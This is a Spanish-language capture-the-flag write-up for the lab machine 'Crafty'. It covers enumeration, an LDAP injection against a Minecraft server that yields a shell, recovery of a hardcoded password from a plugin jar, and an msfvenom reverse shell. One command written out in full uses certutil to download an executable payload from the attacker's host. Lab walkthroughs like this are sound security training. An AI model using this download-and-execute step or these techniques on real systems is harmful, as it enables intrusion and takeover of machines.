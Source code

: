 ### Ping 
```python
ping -c 1 10.10.11.249
PING 10.10.11.249 (10.10.11.249) 56(84) bytes of data.
64 bytes from 10.10.11.249: icmp_seq=1 ttl=127 time=235 ms

--- 10.10.11.249 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 235.207/235.207/235.207/0.000 ms
```

### TTL 127= Wondows
### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 22:17 EST
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.53% done; ETC: 22:18 (0:00:14 remaining)
Nmap scan report for 10.10.11.249
Host is up (0.097s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
10.10.11.249:25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 3/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Ports: 80/http - 25565/tcp

### Enumeración del puerto 80

agregamos el subdominio al que nos esta redirigiendo en el /etc/host

![[Pasted image 20240210232547.png]]

pagina web/ tenemos lo que parece ser un subdominio diferente llamdo play.crafty.htb

![[Pasted image 20240210233121.png]]

### Fuzzing con gobuster

![[Pasted image 20240210234241.png]]

### Tlauncher
debido a que tenemos un servidor de minecraft usaremos tlauncher para conectarnos

![[Pasted image 20240305171536.png]]

### Enumeracion del servidor 
con una pequeña busqyeda encontramos que esta version es vulnerable a una inyeccion de ldap

![[Pasted image 20240305191518.png]]

tenemos esta Poc que nos sera muy util

![[Pasted image 20240305191624.png]]
para ejecutar esto necesitamos Java JDK

### pyCraft
usaremos pycraft para hacer la inyección ldap al servidor

![[Pasted image 20240305192830.png]]

### Poc
"debemos editar el exploit para que ejecute una cmd.exe.... perfecto tenemos conexión y estamos redirigiendo el trafico al puerto 9001

![[Pasted image 20240305192930.png]]

### Redireccionamiento de puerto
estaremos a la escucha por el 9001 donde estaremos redireccionando la inyecccion ldap

![[Pasted image 20240305193720.png]]

### star.py
el script star.py no solicita el nombre de usuario para la segunda opcion nos pide dejarlo en blanco para el modo offline y nos solicita el host+port donde esta corriendo el servidor de minecraft

![[Pasted image 20240305193141.png]]

### Recibimos conexión 

![[Pasted image 20240305193218.png]]

### Escalada De privilegios
en el directorio de plugins hemos conseguido uno que parece interesante. 

![[Pasted image 20240305195827.png]]

### Transferencia de archivo
vamos a enviarnos este archivo a nuestra maquina atacante para poder analizarlo

![[Pasted image 20240305220312.png]]

![[Pasted image 20240305220343.png]]

### impacket-smbserver
usaremos impacket-smbserver para crear un servidor compartido 
![[Pasted image 20240305222529.png]]

copiamos el archivo especificando la ip y el directorio donde esta corriendo el servidor

![[Pasted image 20240305222609.png]]

### analizando el archivo
usaremos jar para extraer la informacion del archivo

![[Pasted image 20240305224247.png]]

tenemos una estructura de archivos bien organizada lo que parece ser un archivo.jar completo
### JD-GUI
usaremos jd-gui para poder leer este archivo.jar

![[Pasted image 20240305225321.png]]
tenemos lo que parece ser unas credenciales

```python
$SecPass = ConvertTo-SecureStrings 's67u84zKq8IXw' -AsPlainText -Force
```

### msfvenom
creamos un payload con msfvenom y lo moveremos a la ruta /var/www/html
![[Pasted image 20240307210028.png]]

### msfconsole
usaremos el multi/handler
![[Pasted image 20240307203956.png]]

### multi/handler
estaremos escuchando con el multi/handler para intentar conserguir una reverse shell
![[Pasted image 20240307210748.png]]

### http.server
creamos un servidor para poder compartir el archivo
![[Pasted image 20240307210833.png]]

### transferencia de archivo
subiremos el payload a la maquina victima usando el comando 
```python
	certutil -urlcache -f http://<tun0 IP>:4245/expl.exe %temp%/expl.exe
```

![[Pasted image 20240307211011.png]]

ejecutamos el payload
![[Pasted image 20240307211305.png]]

### multi/handler
recibimos conexión en el multi/handler
![[Pasted image 20240307211356.png]]

### vamos a la ruta  c:\users\svc_minecraft\server\logs 
aqui subiremos un nuevo payload con msfvenom como hicimos anteriormente pero y tambien vamos a subir el archivo RunasCs_net2.exe 
(https://github.com/antonioCoco/RunasCs/releases?source=post_page-----316a735a306d--------------------------------)
![[Pasted image 20240307212411.png]]
